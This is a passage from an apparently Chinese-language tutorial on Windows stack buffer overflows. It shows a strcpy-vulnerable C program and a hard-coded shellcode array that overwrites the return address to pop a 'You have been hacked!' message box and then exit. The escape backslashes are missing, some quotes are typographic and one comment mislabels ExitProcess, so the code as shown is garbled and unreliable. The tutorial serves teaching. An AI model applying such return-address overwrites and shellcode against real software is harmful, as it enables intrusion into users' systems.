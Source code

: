 ```c
  mov eax, 0x7c81cafa
  call eax       // call ExitProcess
 }
 return 0;
}
```

**（4）得到 Shellcode 机器码**

在 VC 中在程序的 “\_asm” 位置先下一个断点，然后按 F5（Go），再单击 Disassembly，就能够查看所转换出来的机器码（当然也可以使用 OD 或者 IDA 查看）：  
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/968f55da58146f7cb9f02a499b900a96.png)抽取出这些机器码，写入漏洞程序的数组中：

```c
#include <windows.h>
#include <stdio.h>
#include <string.h>
char name[] = "x41x41x41x41x41x41x41x41"  // name[0]~name[7]
     "x41x41x41x41"                      // to Overlap EBP
     "x79x5bxe3x77"                      // Return Address(Address of "Jmp eax")
     "x83xECx50"                           // sub esp,0x50
     "x33xDB"                                // xor ebx,ebx
     "x53"                                     // push ebx
     "x68x69x6Ex67x20"
     "x68x57x61x72x6E"                  // push "Warning"
     "x8BxC4"                                 // mov eax,esp
     "x53"                                      // push ebx
     "x68x2Ex29x20x20"
     "x68x20x4Ax2Ex59"
     "x68x21x28x62x79"
     "x68x63x6Bx65x64"
     "x68x6Ex20x68x61"
     "x68x20x62x65x65"
     "x68x68x61x76x65"
     "x68x59x6Fx75x20"   // push "You have been hacked!(by Jwm)"
     "x8BxCC"                        // mov ecx,esp
     "x53"                          // push ebx
     "x50"                          // push eax
     "x51"                          // push ecx
     "x53"                          // push ebx
     "xB8xeax07xd5x77"               
     "xFFxD0"             // call MessageBox
     “x53”
     “xB8xFAxCAx81x7C”
     "xFFxD0";            // call MessageBox

int main()
{
 char buffer[8];
 strcpy(buffer, name);
 printf("%s",buffer);
 getchar();
 return 0;
}
```
